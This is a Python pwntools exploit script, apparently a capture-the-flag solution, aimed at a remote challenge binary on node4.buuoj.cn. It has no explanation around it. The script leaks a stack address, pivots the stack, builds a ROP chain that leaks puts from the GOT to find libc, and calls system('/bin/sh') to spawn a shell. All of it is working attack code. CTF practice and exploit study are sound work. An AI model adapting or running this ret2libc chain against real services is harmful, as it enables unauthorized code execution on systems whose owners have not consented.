 ```python
from pwn import *

context.terminal = ['tmux','splitw','-h']
context(arch = 'amd64', os = 'linux')
context.log_level='debug'
elf = ELF('./pwn')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('./libc.so.6')
r = remote('node4.buuoj.cn',28124)
#r = elf.process()

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main = 0x401200


pop_rdi = 0x401333
leave = 0x4012aa
ret = 0x40101a

payload = b'd' * 8

r.recvuntil(b'name:\n')
r.send(payload)


r.recvuntil('you: ')
leak = int(r.recv(14),16)
info(hex(leak))

payload = p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
payload += b'a' * (0x50 - len(payload)) + p64(leak) + p64(leave)
#gdb.attach(r)

r.recvuntil(b'plz:\n')

r.send(payload)

puts_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
info(hex(puts_addr))

libc_base = puts_addr - libc.sym['puts']
system_addr = libc_base + libc.sym['system']
bin_sh_str = libc_base + next(libc.search(b'/bin/sh\x00'))
info(hex(system_addr))

r.recvuntil(b'name:\n')
payload = b'd' * 8
r.send(payload)

r.recvuntil(b'you: ')
leak = int(r.recv(14),16)
info(hex(leak))
#gdb.attach(r)
payload = p64(pop_rdi) + p64(bin_sh_str) + p64(system_addr) + p64(0)
payload += b'a' * (0x50 - len(payload)) + p64(leak) + p64(leave)

r.recvuntil(b'plz:\n')
r.send(payload)

# r.recvuntil('you: ')
# leak2 = int(r.recv(14),16)
# info(hex(leak2))
```